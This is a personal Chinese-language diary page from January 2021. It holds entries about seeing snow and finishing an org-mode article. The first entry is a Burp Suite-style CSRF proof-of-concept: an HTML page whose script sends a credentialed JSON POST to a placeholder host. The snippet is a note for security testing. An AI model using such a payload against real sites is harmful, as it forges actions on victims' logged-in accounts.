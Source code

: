 +++
draft = false
+++

<!--more-->


## 星期三, 21/01/06 {#星期三-21-01-06}

使用 ajax 发送 csrf 请求的 demo:

```html
<html>
<!-- CSRF PoC - generated by Burp Suite Professional -->
<body>
    <script>
        history.pushState('', '', '/')
        function csrf() {
            const json_data = JSON.stringify(["57f9d387b754299727a9e5f5e9f314a4"]);
            const xhr = new XMLHttpRequest();
            xhr.open('POST', 'http://xxx');
            xhr.setRequestHeader('Content-Type', 'application/json');
            xhr.withCredentials = true; // ajax 默认不携带 cookie
            xhr.send(json_data);
        }
    </script>
    <input type="button" value="Submit request" onclick="csrf()" />
</body>
</html>
```


## 星期四, 21/01/07 {#星期四-21-01-07}


### 19:00 雪❄ {#19-00-雪}

这应该算是我第一次看到下雪了, 虽然不是很大, 记忆中还有一次是小时候在湖南看到的,
不过印象很模糊. 再往前我应该也看过很厚的积雪, 不过那时候太小, 已经完全不记得了

{{< figure src="/ox-hugo/微信图片_20210108142436.jpg" >}}


## 星期五, 21/01/08 {#星期五-21-01-08}


### <span class="org-todo done DONE">DONE</span> 今天尽量写完 org mode 的推荐文章 {#今天尽量写完-org-mode-的推荐文章}

-   State "DONE"       from "TODO"       <span class="timestamp-wrapper"><span class="timestamp">[2021-01-08 周五 14:23]</span></span>
